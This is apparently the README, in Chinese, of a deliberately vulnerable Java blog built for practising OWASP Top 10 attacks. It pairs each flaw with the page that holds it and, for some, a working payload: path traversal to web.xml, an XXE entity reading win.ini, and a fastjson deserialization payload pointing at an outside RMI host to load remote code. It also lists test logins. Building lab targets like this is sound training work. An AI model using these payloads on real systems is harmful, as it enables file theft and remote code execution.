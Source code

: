 # Blog
漏洞验证平台，主要为测试owasp top 10漏洞


A1注入：search.htm

A2失效的身份认证和会话管理：登录页无限制，可暴力破解
![image](https://user-images.githubusercontent.com/1740718/131211872-d518d5c2-44c7-4110-a53e-c6845272f71d.png)

A3敏感信息泄漏：file.htm  download.htm?fileName=../WEB-INF/web.xml

A4 XXE:login2.htm

xml=<!DOCTYPE%20foo%20[<!ELEMENT%20foo%20ANY><!ENTITY%20abc%20SYSTEM%20"file:///c:/windows/win.ini">]><login><username>%26abc;</username><password>fdsf</password></login>

A5失效的访问控制：水平越权 管理后台-》读取博客

登录帐号：
test/test
tridentj/tridentj

A6安全配置错误：暂无

A7 XSS：search.htm  

&lt;img src="img/1.png" /&gt;

A8不安全的反序列化:upload.htm (apache-commons-collections-3.2.1) resources目录下cc.bin windows下弹出计算器

A9：fastjson 1.2.24前反序列化漏洞
http://localhost:8080/blog/updateUserInfo.htm

部署环境，参考resources/dependency/fastjson

json提交框中输入以下内容：
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.2.13.27:9999/Poc","autoCommit":true}
![image](https://user-images.githubusercontent.com/1740718/133755384-f98ca858-daa6-4642-99eb-47dacd51f858.png)



A10：无

![image](https://user-images.githubusercontent.com/1740718/131211747-2be958b6-4c49-4a79-b442-2ed0787443de.png)
![image](https://user-images.githubusercontent.com/1740718/168001817-4b62b8ab-d417-42d5-8cf6-a1a3c9e4019a.png)



